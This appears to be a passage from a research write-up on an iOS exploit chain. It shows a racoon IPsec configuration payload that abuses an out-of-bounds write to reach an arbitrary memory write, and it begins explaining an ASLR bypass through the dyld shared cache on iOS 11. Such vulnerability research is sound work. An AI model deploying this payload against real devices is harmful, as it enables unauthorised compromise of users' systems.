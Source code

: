 ```C
#else
			racoon_yyerror("racoon not configured with --enable-hybrid");
#endif
		}
	;
```
The global struct looks like this (defined under https://opensource.apple.com/source/ipsec/ipsec-317.220.1/ipsec-tools/racoon/isakmp_cfg.h.auto.html):
```
struct isakmp_cfg_config {
	in_addr_t		network4;
	in_addr_t		netmask4;
	in_addr_t		dns4[MAXNS];
	int			dns4_index;
	in_addr_t		nbns4[MAXWINS]; // MAXWINS is defined as 4
	int			nbns4_index; // note that this is an int so it could contain negativ values
	[...]
};
```
This means that we can use this to trigger a relativ out of bounds write with the following syntax (and then turn it into an absolut one):
```
mode_cfg {
	wins4 1.1.1.1; // increment the nbns4_index by one [0 => 1]
	wins4 1.1.1.1; // increment the nbns4_index by one [1 => 2]
	wins4 1.1.1.1; // increment the nbns4_index by one [2 => 3]
	wins4 1.1.1.1; // increment the nbns4_index by one [3 => 4] (now it is pointing out of bounds/pointing to our own nbns4_index value)
	wins4 255.255.255.255; // this will get converted into the uint32_t 0xffffffff => -1 if you convert it to an int so the nbns4_index will now have the value -1 and with that pointing to the dns4_index
	wins4 50.253.255.255; // this will now overwrite the dns4_array index with -718 and increment the nbns4_index by 1 again so it's 0 again now and we can repeat this as often times as we want
	dns4 255.255.255.255; // now we can use the dns4 statments here to smash a pointer in the globals (lcconf ptr)
	dns4 255.255.255.255; // smash upper half (as the dns4 array index will also get incremented every time)
}
timer { // now we can use this timer statment
	counter 1212; // with a counter statment to deref the lcconf ptr and then write anywhere in process memory
	interval 1212 usec;
}
```
If the explanation in text form wasn't enough for you please look at the slides/presentation of both littlelailo and pod2g that have a graphic visualization of the bug.
The bug was "fixed" by Apple in 2012 as CVE-2012-3727 but fixed the bug in the wrong function (dns4 one) so this is still an 0day at the moment.

### ASLR bypass
The aslr bypass is pretty complex to explain but basically there is the dyld shared cache containing all the libraries from apple that gets loaded into each process.
The load base gets randomized on boot by the kernel and for that apple defined a start address and as size. So the kernel will basically use the size of the cache and substract it from the predefined size to get the maximum slide.
This was defined as 1 GB prior to iOS 12 where it was increased to 4 GB "fixing" the bug (we believe that apple never thought this was a secuirty issue and just fixed it by accident because the cache got bigger than 1 GB and so they had to do something about it). 
With each iOS version the cache obviously gets bigger and bigger because Apple adds new functions etc and on iOS 11 this caused a problem because there the cache got bigger than 900 MB.
This means that the maximum slide is now smaller than 100 MB which isn't a problem per se, but the DATA section of the cache is also really big, bigger than 100 MB and with that bigger than the maximum slide.